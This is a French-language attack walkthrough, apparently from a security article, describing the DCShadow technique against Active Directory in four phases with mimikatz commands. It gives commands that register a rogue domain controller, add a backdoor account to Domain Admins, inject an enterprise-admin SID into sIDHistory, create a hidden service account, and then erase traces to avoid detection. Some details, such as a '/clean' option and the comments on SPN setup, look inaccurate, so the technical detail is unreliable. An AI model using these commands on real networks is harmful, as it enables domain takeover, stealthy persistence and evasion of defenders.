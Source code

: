 ### Processus d'Attaque DCShadow Détaillé

**Phase 1 : Préparation de l'environnement**

Le processus DCShadow débute par l'établissement d'un contrôleur de domaine fictif :

```powershell
# Activation du service mimikatz driver
privilege::debug
!+

# Démarrage du processus DCShadow
lsadump::dcshadow /object:CN=targetuser,CN=Users,DC=corp,DC=local /attribute:primaryGroupID /value:512

# Configuration des SPN nécessaires
lsadump::dcshadow /push
```

**Phase 2 : Enregistrement du DC malveillant**

L'attaquant modifie le schéma Active Directory pour enregistrer la machine compromise comme contrôleur de domaine :

* **Création d'objets dans CN=Configuration** : Enregistrement de la machine dans la partition de configuration
    
* **Modification des SPN** : Attribution des Service Principal Names appropriés (GC/machine-name)
    
* **Établissement de la confiance** : Configuration des relations de réplication avec les DC légitimes
    

**Phase 3 : Injection des modifications malveillantes**

Une fois enregistré, le faux DC peut pousser des modifications vers les contrôleurs légitimes:

```powershell
# Ajout d'un utilisateur au groupe Domain Admins
lsadump::dcshadow /object:CN=backdoor,CN=Users,DC=corp,DC=local /attribute:memberOf /value:CN=Domain Admins,CN=Users,DC=corp,DC=local

# Modification de l'attribut sIDHistory pour privilèges cross-domain
lsadump::dcshadow /object:CN=user,CN=Users,DC=corp,DC=local /attribute:sIDHistory /value:S-1-5-21-root-domain-519

# Création d'un compte de service caché
lsadump::dcshadow /object:CN=svc-persist,CN=Users,DC=corp,DC=local /attribute:servicePrincipalName /value:HTTP/persist.corp.local
```

**Phase 4 : Nettoyage et camouflage**

Pour éviter la détection, l'attaquant supprime les traces de l'opération :

```powershell
# Suppression des SPN créés
lsadump::dcshadow /clean

# Suppression de l'enregistrement DC fictif
# (effectué automatiquement par mimikatz)
```
